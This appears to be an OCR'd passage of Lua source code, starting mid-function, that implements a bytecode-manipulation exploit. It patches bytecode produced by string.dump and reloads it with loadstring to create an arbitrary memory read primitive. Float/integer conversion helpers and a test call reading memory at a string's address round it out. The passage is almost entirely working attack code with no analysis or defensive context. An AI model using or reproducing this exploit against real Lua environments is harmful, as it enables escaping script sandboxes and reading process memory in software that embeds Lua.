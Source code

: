 ```
  end

  local lo = m % 2^32
  m = (m - lo) / 2^32
  local hi = m + e * 2^20
  return lo, hi
end

ii2f = function(lo, hi) -- Convert uint32_t[2] to double
  local m = hi % 2^20
  local e = (hi - m) / 2^20
  m = m * 2^32 + lo

  if e ~= 0 then
    m = m + 2^52
  else
    e = 1
  end
  return m * 2^(e-1075)
end

read_mem = loadstring(string.dump(function(mem_addr) -- AAAABBBB 1094795585 1111638594
  local magic=nil
  local function middle()
    local f2ii, asnum = f2ii, asnum
    local lud, upval
    local function inner()
      magic = "01234567"
      local lo,hi = f2ii(mem_addr)
      upval = "commonhead16bits"..ub4(lo)..ub4(hi)
      lo,hi = f2ii(asnum(upval));lo = lo+24
      magic = magic..ub4(lo)..ub4(hi)..ub4(lo)..ub4(hi)
    end
    inner()
    return asnum(magic)
  end
  magic = middle()
  return magic
end):gsub("(\164%z%z%z)....", "%1\0\0\128\1", 1))  --> move 0,3

x="AAAABBBB"
l,h=f2ii(asnum(x))
x=ii2f(l+24,h)
print(f2ii(read_mem(x)))
```